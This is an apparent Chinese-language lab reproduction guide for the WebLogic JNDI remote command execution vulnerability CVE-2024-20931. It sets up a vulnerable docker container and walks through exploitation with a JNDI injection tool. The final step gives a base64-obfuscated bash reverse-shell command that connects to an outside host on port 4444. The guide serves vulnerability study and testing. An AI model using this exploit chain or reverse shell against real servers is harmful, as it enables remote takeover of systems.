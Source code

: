 # Weblogic JNDI命令执行漏洞(CVE-2024-20931)

在Oracle发布的2024年1月补丁中，成功修复了一个基于Weblogic T3\IIOP协议的远程命令执行漏洞CVE-2024-20931。此漏洞在2023年10月向Oracle报告，本质上是CVE-2023-21839补丁的一种绕过，牵涉到一个新的JNDI攻击面。存在此漏洞将可导致服务器被接管，可进行远程命令执行获取服务器控制权限。

参考链接：

- https://github.com/dinosn/CVE-2024-20931
- https://nvd.nist.gov/vuln/detail/CVE-2024-20931



## 漏洞环境



执行如下命令启动一个Weblogic 服务：

```
#下载镜像
docker pull ismaleiva90/weblogic12

#启动环境
docker run -dit -p 7001:7001 -p 7002:7002 --restart=always ismaleiva90/weblogic12:latest
```

## 漏洞复现

1，准备ldap服务

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "执行的命令"
```

![image-20240408140009229](./2.png)

2，下载利用工具：https://github.com/dinosn/CVE-2024-20931

![image-20240408135902347](./1.png)

3，查看利用结果

![image-20240408140135093](./3.png)

![image-20240408140240276](./4.png)

反弹shell利用方式

```shell
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC42Ni42NC4xMDYvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}"
```

![image-20240408140400070](./5.png)